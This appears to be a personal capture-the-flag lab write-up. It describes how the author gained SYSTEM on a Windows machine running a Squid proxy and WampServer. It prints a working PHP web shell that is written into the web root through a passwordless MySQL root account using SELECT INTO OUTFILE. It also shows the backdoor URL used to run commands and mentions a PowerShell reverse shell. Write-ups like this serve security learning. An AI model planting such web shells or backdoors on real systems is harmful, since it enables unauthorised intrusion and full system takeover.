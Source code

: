 # Main

[Back to Table of Contents](../cysec)


This is an overview of my methods in rooting a machine from pg. I have purposefully left the names of all pg machines out in titles and replaced them with generic names to avoid any spoiling while still maintaining the opportunity to share my methods, skills, and journey. 

## Initial

### Port scans:
```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack

```
After performing initial service enumeration on the target, it was discovered that only one TCP port was open. Navigating to this led to a page for 'squid proxy.'
Researching squid proxy led me to understand that it can act as a proxy between local services and the web. I found a python script made with the purpose of scanning the system via the proxy and discovered two open ports, one of them being a web server. 
I then used foxyproxy in firefox to create an http proxy with the target ip and squid proxy port and was able to access the internal webserver.
---

### Web - initial:

```
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack┌──(kali㉿kali)-[/scripts/spose]
└─$ python spose.py --proxy http://192.168.133.189:3128 --target 192.168.133.189     
Using proxy address http://192.168.133.189:3128
192.168.133.189 3306 seems OPEN 
192.168.133.189 8080 seems OPEN 
```

```
foxyproxy:
192.168.133.189 3128 http

http://192.168.133.189:8080/ --> wampserver
```
After navigating to the site, a configuration page was discovered. On this page, the default configuration for mysql was found to be root with no password.

Find location to create a backdoor -- installation directory found by navigating to 'create virtual hosts':
```
Apache Virtual Hosts C:/wamp/bin/apache/apache2.4.46/conf/extra/httpd-vhosts.conf

VirtualHost already defined:

    ServerName : localhost - Directory : C:/wamp/www


```
Add a new database, then create a table and query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\wamp\\www\\backdoor.php"

http://192.168.133.189:8080/backdoor.php?cmd=whoami

nt authority/sytstem

```

Using revshells -- powershell revshell #2, URL -encoded
Other:


```
PS C:\Users\Administrator\Desktop> type proof.txt && whoami && ipconfig
##HASH##
PS C:\Users\Administrator\Desktop> whoami
nt authority\system
PS C:\Users\Administrator\Desktop> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.133.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.133.254

```

